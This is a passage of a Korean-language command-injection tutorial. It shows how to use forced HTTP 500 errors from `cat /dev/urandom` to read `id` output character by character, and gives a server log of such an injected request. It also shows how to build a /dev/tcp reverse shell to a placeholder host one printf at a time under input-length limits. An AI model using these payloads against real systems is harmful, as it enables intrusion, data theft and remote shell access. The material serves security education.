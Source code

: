 #### 에러 (DoS)

비교하는 값이 참일 경우 시스템 에러를 발생시켜 500코드 (또는 서버 에러를 뜻하는 HTTP 상태 코드)를 확인한다.

- `id` 명령어의 결과를 확인하고 싶을 때 해당 데이터를 base64로 치환한 후 참/거짓 판별을 통해 해당 데이터를 알아낼 수 있다.
- sleep 명령을 사용할 수 없거나, 시간 지연을 확실히 판별하기 어려운 경우  HTTP 500 에러 (Internal Server Error)를 인위적으로 발생시키는 방법을 통해 참/거짓 판별을 할 수 있다.
- 다양한 방법이 존재하며, 간단한 방법으로는 `cat /dev/urandom` 명령어가 있다. 해당 명령어를 실행시키면 아래와 같이 할당된 메모리를 초과하는 에러를 발생시킬 수 있다.

```bash
2020/05/27 09:46:14 [error] 1572#1572: *297 FastCGI sent in stderr: "PHP message: PHP Fatal error:  Allowed memory size of 134217728 bytes exhausted (tried to allocate 98566176 bytes) in /var/www/html/x.php on line 6" while reading response header from upstream, client: 183.98.35.161, server: demo.dreamhack.io, request: "GET /m.php?cmd=bash%20-c%20%22printenv;a=\$(id%20|%20base64%20-w%200);%20if%20[%20\${a:0:1}%20==%20%27z%27%20];%20then%20sleep%202;%20fi;%22;%20echo%201;cat%20/dev/urandom HTTP/1.1", upstream: "fastcgi://unix:/var/run/php/php7.2-fpm.sock:", host: "demo.dreamhack.io"
```

```bash
bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then cat /dev/urandom; fi;" # --> 500 true
bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then cat /dev/urandom; fi;" # --> 500 true
bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then cat /dev/urandom; fi;" # --> 200 false
bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then cat /dev/urandom; fi;" # --> 500 true
```

### 입력 길이가 제한된 상황 - 1

---

입력길이가 제한된 상황에선 앞서 배운 append redirection을 이용해 사용자가 쓰기 권한을 갖고 있는 임시 폴더에 파일을 만드는 방법으로 활용할 수 있다.

한 글자씩 원하는 문자를 파일에 저장한 후 `bash` 나 `python` 과 같은 인터프리터를 이용해 실행하는 방식이다.

아래의 명령어들은 입력 길이가 제한된 상황에서 공격자의 서버와 리버스 연결을 맺는 예제이다.

```bash
printf bas>/tmp/1
printf h>>/tmp/1
printf \<>>/tmp/1
printf /d>>/tmp/1
printf ev>>/tmp/1
printf /t>>/tmp/1
printf cp>>/tmp/1
printf />>/tmp/1
printf 1 >>/tmp/1
printf 2 >>/tmp/1
printf 7.>>/tmp/1
printf 0.>>/tmp/1
printf 0.>>/tmp/1
printf 1/>>/tmp/1
printf 1 >>/tmp/1
printf 2 >>/tmp/1
printf 3 >>/tmp/1
printf 4 >>/tmp/1
bash</tmp/1&
```
